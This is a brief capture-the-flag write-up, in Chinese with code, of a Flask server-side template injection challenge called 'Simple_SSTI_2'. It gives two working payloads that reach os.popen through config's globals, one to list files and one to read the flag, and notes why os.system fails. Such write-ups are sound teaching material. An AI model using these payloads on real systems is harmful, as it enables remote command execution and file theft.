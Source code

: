 # Simple_SSTI_2

## writeup

flask模板注入


`?flag={{config.__class__.__init__.__globals__['os'].popen('ls').read()}}    # Dockerfile app.py flag gunicorn.conf.py templates `

`?flag={{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}`


PS: 不能用os.system()，因为永远返回0